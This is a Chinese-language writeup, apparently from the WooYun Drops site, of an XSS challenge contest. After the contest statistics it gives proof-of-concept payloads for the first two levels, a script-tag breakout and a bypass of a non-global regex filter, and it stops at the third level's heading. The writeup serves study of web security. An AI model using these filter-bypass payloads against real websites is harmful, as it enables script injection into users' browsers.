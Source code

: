 # 无声杯 xss 挑战赛 writeup

2014/07/25 11:58 | [insight-labs](http://drops.wooyun.org/author/insight-labs "由 insight-labs 发布")![](img/img1_u56_png.jpg)   | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章")  | 占个座先  | 捐赠作者

本次比赛参与人数 3700 多人，提交并获得了分数的正确答案共有 1069 条。最终有 65 名参赛者获得了奖品，一、二、三名分别由 p.z，piaca 和香草获得。答题结果的总体分布如下：

![enter image description here](img/img1_u21_jpg.jpg)

年龄越来越大，记性越来越差。就当做笔记吧（所有 POC 都只是为了通关）。

## 1\. FB-0

这一关没什么可说的，直接给出 POC：

```
http://sandbox.host.smartgslb.com/fb0/xss1.php?code=</script><svg/onload=alert(1)// 
```

## 2\. FB-01

这一关只有有个坑就是 `正则`

```
name=name.replace(/</,"&lt;"); 
```

replace 没有使用全局 g 参数，造成只会替换字符串中的第一个 "<" 符号，所以这关的 POC：

```
http://sandbox.host.smartgslb.com/fb1/#code=<<svg/onload=alert(1)> 
```

## 3\. FB-02
